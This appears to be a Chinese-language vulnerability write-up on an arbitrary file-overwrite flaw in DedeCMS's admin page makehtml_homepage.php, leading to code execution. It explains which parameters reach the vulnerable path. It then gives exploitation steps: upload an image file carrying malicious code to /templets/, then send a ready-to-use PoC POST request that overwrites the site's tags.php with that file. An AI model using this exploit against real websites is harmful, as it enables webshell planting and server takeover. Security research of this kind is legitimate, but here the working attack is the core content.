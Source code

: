 分析完文件覆盖功能  
  
  
分析整篇代码 想要利用此功能达到代码执行需要满足条件 传入以下值dopost=make、showmod=1即可进入上述覆盖功能处，然后传入templet=文件、Position=被覆盖文件  其中Position不存在任何过滤 ，templet存在过滤不能使用../ 所以只能是在/templets/目录中的文件  
  
  
  
   
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28Pictib2nsl28I3Dql1gcvUNmKzkLhNicf4O2zRciaKqMVXjlnSziauBavgibg/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PGoRaZTYYdzvbOVWjg9wU5mIcPDO9cNwg0FxKiam0hJktuBMSahWKKQw/640?wx_fmt=png&from=appmsg "")  
  
## 漏洞利用  
  
### 第一步 上传图片马  
  
  
利用系统的文件管理器上传包含恶意内容的图片文件在且/templets/目录中  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PzKdnSVgFONpZZ568pqb2hXsqu0EmfXjJHsbR6RPbBJMStAibvKvO7Hw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28P0zUeILiccuJS2jbpmtoQ5B5TiaN3xTldrUQiayNuO3CSXMzPXcQqwuMlw/640?wx_fmt=png&from=appmsg "")  
  
  
  
选择一个php文件  系统根目录的tags.php 作为漏洞利用的被覆盖文件  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PncfhqhXsxf6Py4WZKtBfORGrG4jjCiaQbKvNEeKLs4icU9ibfCmnYic1XQ/640?wx_fmt=png&from=appmsg "")  
  
  
### 第二步  利用漏洞点  
  
  
Poc:  
  
```
POST /dede/makehtml_homepage.php HTTP/1.1Host: dedexin.comCache-Control: max-age=0Upgrade-Insecure-Requests: 1Origin: http://dedexin.comContent-Type: application/x-www-form-urlencodedUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Referer: http://dedexin.com/dede/makehtml_homepage.phpAccept-Language: zh-CN,zh;q=0.9,en;q=0.8Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=2arsdvohnfcikal48h8hr7ubk0; _csrf_name_1c92fd8c=07275bb19eb1a468e0ca33f375d922d9; _csrf_name_1c92fd8c1BH21ANI1AGD297L1FF21LN02BGE1DNG=b4f481ed8fe16761; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=54d02982fb32518a; DedeLoginTime=1712737433; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=c773fe091ed4fc7cAccept-Encoding: gzip, deflate, brContent-Length: 53Connection: closedopost=make&templet=mu.gif&position=..%2Ftags.php&showmod=1
```  
  